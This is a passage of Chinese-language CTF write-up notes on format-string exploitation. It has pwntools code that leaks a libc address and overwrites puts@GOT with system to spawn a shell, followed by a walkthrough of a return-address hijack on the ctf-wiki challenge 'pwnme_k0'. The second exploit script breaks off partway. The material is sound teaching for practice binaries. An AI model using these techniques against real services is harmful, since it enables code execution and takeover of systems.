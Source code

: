 ```py
puts_addr = u32(sh.recv()[:4])
#计算libc,从而算出system的地址
libc=LibcSearcher("puts", puts_addr)
libc_base=puts_addr-libc.dump('puts')
sys_addr=libc_base+libc.dump('system')
#把第七个参数的puts_got改成system的地址
payload = fmtstr_payload(7, {puts_got: sys_addr})
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
#在运行show_dir时将puts(“/bin/sh;”)变成system("/bin/sh;"),并成功获取shell
sh.sendline('/bin/sh;')
sh.recvuntil('then, enter the content:')
sh.sendline(payload)
#通过get(get_file)执行格式化字符串漏洞
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('/bin/sh;')
#通过dir(show_dir)来拿到shell
sh.sendline('dir')
sh.interactive()
```

## hijack retaddr

劫持返回地址

[三个白帽 - pwnme_k0](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/三个白帽-pwnme_k0) 

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594861549643-b21695a9-3adb-4925-88d4-ad0d2f48f770.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594861575122-fe5b3429-30bd-4293-83d8-efff377e8f40.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594861597436-e8bfed4a-ac03-4910-a692-a056d02bbc56.png)

格式化字符串漏洞+后门函数

在漏洞的printf函数前下断点，输入用户名为aaaaaaaa，密码为%p.%p.%p.%p.%p.%p

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594862002006-5fdf1432-82c2-4e0b-8681-8eab6b273149.png)

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为 5 + 3 = 8。

可以看到栈上第二个位置存储的就是该函数的返回地址 (其实也就是调用 show account 函数时执行 push rip 所存储的值)，在格式化字符串中的偏移为 7。

与此同时栈上，第一个元素存储的也就是上一个函数的 rbp。所以我们可以得到偏移 0x00007fffffffdb90 - 0x00007fffffffdb58 = 0x38。继而如果我们知道了 rbp 的数值，就知道了函数返回地址的地址

0x0000000000400d74 与 0x00000000004008A6 只有低 2 字节不同，所以我们可以只修改 0x00007fffffffdb48 开始的 2 个字节。

这里需要说明的是在某些较新的系统 (如 ubuntu 18.04) 上, 直接修改返回地址为 0x00000000004008A6 时可能会发生程序 crash, 这时可以考虑修改返回地址为 0x00000000004008AA, 即直接调用 system("/bin/sh") 处

```py
from pwn import *
context.log_level="debug"
context.arch="amd64"
sh=process("./pwnme_k0")
binary=ELF("pwnme_k0")

#  gdb.attach(sh)
sh.recv()
sh.sendline("1"*8)
sh.recv()
sh.sendline("%6$p")
sh.recv()
```